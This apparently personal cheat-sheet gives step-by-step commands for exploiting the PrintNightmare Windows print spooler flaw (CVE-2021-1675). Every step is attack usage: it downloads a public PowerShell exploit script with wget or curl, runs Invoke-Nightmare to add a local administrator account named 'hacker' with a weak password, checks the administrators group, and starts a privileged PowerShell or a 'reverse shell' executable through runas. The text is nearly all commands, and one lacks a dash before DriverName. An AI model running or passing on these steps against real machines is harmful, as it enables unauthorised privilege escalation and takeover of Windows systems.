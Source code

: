 # CVE-2021-1675 

Project https://github.com/calebstewart/CVE-2021-1675

`wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1`

`curl https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -o CVE-2021-1675.ps1`

In Powershell,

`Import-Module .\ CVE-2021-1675.ps1`

Create a new admin user

`Invoke-Nightmare -NewUser "<username to create >" -NewPassword <password for that new user> DriverName "PrintMe"`
  
`Invoke-Nightmare -NewUser "hacker" -NewPassword "password1234" DriverName "PrintMe"`

Check if user was added

`net localgroup administrators`

Run powershell as SYSTEM

`runas /user:hacker powershell.exe`
 
 or reverse shell
 
`runas /user:hacker shell.exe`

  
  
https://www.hackercoolmagazine.com/printnightmare-privilege-escalation-with-powershell/
